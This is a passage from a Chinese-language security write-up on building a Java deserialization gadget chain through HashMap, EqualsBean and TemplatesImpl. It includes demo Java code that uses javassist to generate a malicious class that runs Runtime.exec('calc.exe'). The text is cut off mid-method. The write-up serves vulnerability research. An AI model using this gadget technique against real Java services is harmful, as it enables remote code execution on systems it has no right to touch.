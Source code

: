 [![](assets/1701071934-944e5df3b5e2559e765327389da42b50.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124223118-215ac4be-8ad6-1.png)  
this.\_obj 由 EqualsBean 的构造函数传入，是我们可控的  
[![](assets/1701071934-3308a71a5216269334aad7292741c844.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124223124-24d2a6ac-8ad6-1.png)  
因为在 HashMap 的 readobject 方法中，会调用 hash(key)，进而调用 key.hashCode()，所以我们可以利用 HashMap 作为入口构造反序列化链子

## demo

util.java

```bash
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;

import java.io.*;
import java.lang.reflect.Field;

public class util {
    public static Object getTeml() throws Exception{
        // 动态构造恶意 TemplatesImpl 对象
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("asdasdasasd");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "Evil" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        // 获得其变量
        Field name = templates.getClass().getDeclaredField("_name");
        Field clazz = templates.getClass().getDeclaredField("_class");
        Field factory = templates.getClass().getDeclaredField("_tfactory");
        Field bytecodes = templates.getClass().getDeclaredField("_bytecodes");
        // 赋予修改权限
        name.setAccessible(true);
        clazz.setAccessible(true);
```